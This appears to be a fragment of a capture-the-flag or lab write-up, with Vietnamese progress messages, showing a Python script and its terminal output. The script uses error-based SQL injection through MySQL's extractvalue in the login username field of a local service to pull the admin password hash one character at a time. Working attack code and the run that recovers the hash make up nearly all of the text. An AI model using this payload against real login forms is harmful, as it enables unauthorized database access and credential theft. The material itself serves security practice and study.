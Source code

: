 ```py
    "Origin": "http://127.0.0.1:1337",
    "Referer": "http://127.0.0.1:1337/"
}

def extract_char_value(pos):
    payload = f'" OR extractvalue(1,concat(0x7e,substring((SELECT password FROM users WHERE username=\'admin\'),{pos},1),0x7e)) -- -'
    data = {
        "username": payload,
        "password": "bl4ck0ut"
    }
    response = requests.post(BASE_URL, headers=HEADER, json=data)
    match = re.search(r"~([^~])~", response.text)
    if match:
        return match.group(1)
    else:
        print(f"[-] Failed Extract Value Hash")

def dump_hash_admin():
    hash_full = ""
    for pos in range(1, 33):
        char = extract_char_value(pos)
        if char:
            hash_full += char
            print(f"[+] Ký tự {pos}: {char}  =>  {hash_full}")
        else:
            print(f"[-] Không lấy được ký tự ở vị trí {pos}")
            break
    return hash_full

if __name__ == "__main__":
    print(f"[+] Bắt đầu extract giá trị hash")
    admin_hash = dump_hash_admin()
    print(f"[+] Done Found Hash Admin: \n{admin_hash}")
```
```note
┌──(bl4ck0ut㉿DESKTOP-NC78VN5)-[~]
└─$ python3 a.py
[+] Bắt đầu extract giá trị hash
[+] Ký tự 1: 2  =>  2
[+] Ký tự 2: a  =>  2a
[+] Ký tự 3: c  =>  2ac
[+] Ký tự 4: b  =>  2acb
[+] Ký tự 5: 5  =>  2acb5
[+] Ký tự 6: b  =>  2acb5b
[+] Ký tự 7: 6  =>  2acb5b6
[+] Ký tự 8: 6  =>  2acb5b66
[+] Ký tự 9: 0  =>  2acb5b660
[+] Ký tự 10: 5  =>  2acb5b6605
[+] Ký tự 11: f  =>  2acb5b6605f
[+] Ký tự 12: 3  =>  2acb5b6605f3
[+] Ký tự 13: 3  =>  2acb5b6605f33
[+] Ký tự 14: 6  =>  2acb5b6605f336
[+] Ký tự 15: 6  =>  2acb5b6605f3366
[+] Ký tự 16: 0  =>  2acb5b6605f33660
[+] Ký tự 17: 7  =>  2acb5b6605f336607
[+] Ký tự 18: 6  =>  2acb5b6605f3366076
[+] Ký tự 19: 6  =>  2acb5b6605f33660766
[+] Ký tự 20: 5  =>  2acb5b6605f336607665
[+] Ký tự 21: 0  =>  2acb5b6605f3366076650
[+] Ký tự 22: 6  =>  2acb5b6605f33660766506
[+] Ký tự 23: 8  =>  2acb5b6605f336607665068
[+] Ký tự 24: 6  =>  2acb5b6605f3366076650686
```